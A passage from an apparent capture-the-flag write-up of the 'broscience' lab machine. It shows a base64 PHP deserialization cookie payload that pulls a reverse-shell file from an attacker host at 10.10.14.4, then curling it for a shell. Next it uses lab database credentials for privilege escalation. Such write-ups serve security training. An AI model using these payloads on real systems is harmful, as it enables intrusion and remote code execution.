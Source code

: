 ```php
?>

$ php evil.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNToiaHR0cDovLzEwLjEwLjE0LjQvcmV2LnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vcmV2LnBocCI7fQ==
```
{% endcode %}

Then, we can simply send a request with this the output as the cookie. We would get a few hits on our HTTP server.

<figure><img src="../../../.gitbook/assets/image (25) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Then we can simply curl it to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (28) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PostgreSQL Creds

Earlier, we found a `db_connect.php` file that contained some credentials. We can attempt to access the PostgreSQL instance listening on port 5432 on the machine.

```bash
www-data@broscience: /var/www/html$ psql -h localhost -d broscience -U dbuser -W
# Password is RangeOfMotion%777
```

We can use `\d` to read the tables present on the machine.

```
 Schema |       Name       |   Type   |  Owner   
--------+------------------+----------+----------
 public | comments         | table    | postgres
 public | comments_id_seq  | sequence | postgres
 public | exercises        | table    | postgres
 public | exercises_id_seq | sequence | postgres
 public | users            | table    | postgres
 public | users_id_seq     | sequence | postgres
```

Then, we can read the stuff in the `users` file.&#x20;

